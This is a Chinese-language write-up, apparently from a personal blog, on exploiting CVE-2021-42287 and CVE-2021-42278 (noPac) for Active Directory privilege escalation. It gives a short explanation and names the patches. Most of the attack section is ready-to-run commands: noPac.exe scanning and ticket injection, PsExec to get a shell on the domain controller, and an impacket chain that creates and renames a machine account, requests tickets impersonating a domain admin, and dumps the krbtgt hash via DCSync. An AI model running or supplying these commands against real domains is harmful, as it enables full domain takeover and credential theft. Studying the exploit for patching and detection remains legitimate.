



CVE-2021-42287, CVE-2021-42278域权限提升
目录
补丁：KB5008602、KB5008380
- CVE-2021-42278，机器账户的名称一般用
$结尾，但AD并未对域内机器账户名进行验证。 - CVE-2021-42287， 结合上述42278漏洞，创建一个与DC机器账户名称相同的机器账户(不以\$结尾)，使用该账户请求一个TGT后，修改账户名，然后通过S4U2Self申请TGS Ticket，然后DC进行在
TGS_REP阶段加密TGS Ticket时，无法找到该账户利用机器账户hash加密，DC便使用自己的hash加密TGS Ticket，提供一个属于该账户的PAC，我们便可得到一个高权限的ST。
至于为什么要通过s4u2self请求TGS，我也不是很懂。不过当一个脚本小子就行
- 首先创建一个机器账户
- 清除机器账户的
servicePrincipalName属性 - 将机器账户的
sAMAccountName修改为DC的机器账户名，但不带\$ - 使用机器账户的身份请求TGT
- 将机器账户的
sAMAccountName修改为其他值，不能与DC的机器账户名重复。 - 通过S4U2Self向KDC申请ST
- 拿到高权限ST票据，完成利用。
nopac
自动化武器链接：https://github.com/cube0x0/noPac
扫描//域账户noPac.exe scan -domain good.test -user testuser -pass 123456aa..

导入票据 可以把cifs协议改成ldap（cifs时间过长会导致票据失效）
/mAccount 随便填/mPassword 随便填
noPac.exe -domain good.test -user testuser -pass 123456aa.. /dc DC.good.test /mAccount dadd /mPassword sdadasdsa /service cifs /ptt


拿shell可以用psexec
PsExec.exe dc.hacker.test cmd.exe
impacket
https://github.com/dirkjanm/krbrelayx 获得addspn.py
renamemachine.py 在此分支获得https://github.com/fortra/impacket/blob/0c74df065eeffde8c24edb56e880ab49c82530b7/examples/renameMachine.py
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'
# 1. clear its SPNs
addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController
# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'
# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'
# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'
# 5. obtain a service ticket with S4U2self by presenting the previous TGT DomainController.ccache来自第三步tgt保存的文件
KRB5CCNAME='DomainController.ccache'
getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'
# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache'
secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'